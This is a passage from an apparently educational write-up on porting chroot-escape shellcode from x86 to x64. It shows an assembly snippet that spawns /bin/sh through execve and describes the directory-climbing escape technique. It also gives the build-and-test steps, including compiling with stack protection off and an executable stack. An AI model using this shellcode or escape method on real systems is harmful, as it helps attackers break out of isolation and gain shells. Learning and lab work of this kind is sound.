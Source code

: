 ```
xor rax, rax
add rax, 59
xor rdi, rdi
push rdi
mov rdi, 0x68732F2f6e69622F
push rdi
lea rdi, [rsp] ;load in address of /bin/sh string
xor rsi, rsi
xor rdx, rdx
syscall
```
Overall this script breaks out of the chroot, (in an overkill fashion) by creating a new directory and rapidly changing directories back to hopefully cd into a directory outside of the root. If successful we can chroot to our new directory outside teh chroot, and execute a shell. This works becuase chroot is not really an effective security mechanism, and just designed to isolate filepaths not implement a full secure jail.  

The comments should help make clear what is happening for the most part, I'd like to document where I ran into some hiccups while morphing the x86 code to x64. The first part is converting the systemcalls to x64 convention which wasn't too bad, but the syscalls.sh website (linked above) came in super handy. 

The other really big issue came from the loop instruction. we had an issue where each iteration of the loop instruction would not properly decrement rcx as expected. Each loop rcx was set to some large hex value, so we had to do some googling [link](https://stackoverflow.com/questions/2535989/what-are-the-calling-conventions-for-unix-linux-system-calls-and-user-space-f). Turns out the syscall instruction actually clobbers rcx, so like my comment says, we need to save rcx to the stack and pop it back after each `syscall`.

With our shellcode complete its time to test it!

Here are my steps we followed in writing the shellcode. I don't really write shellcode that often, so I'm sure there is a way to automate this process, but if you're still learning, doing this by hand is a good learning experience :) 
``` bash
#write shellcode into shellcode.asm
nasm -f elf64 shell.asm -o shellcode.o
ld shellcode.o -o shellcode
objdump -d shellcode
#highlight middle column bytes and place into shell.py
# only grab the bytes from the middle column 
python3 shell.py | xclip -selection clipboard
# test
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```
Once our shellcode is compiled into the final executable we can test it on our system to see if it runs properly:
```bash
$./shellcode
$whoami
[YOURLINUXUSERNAME]
```
YEET it seems to be working!
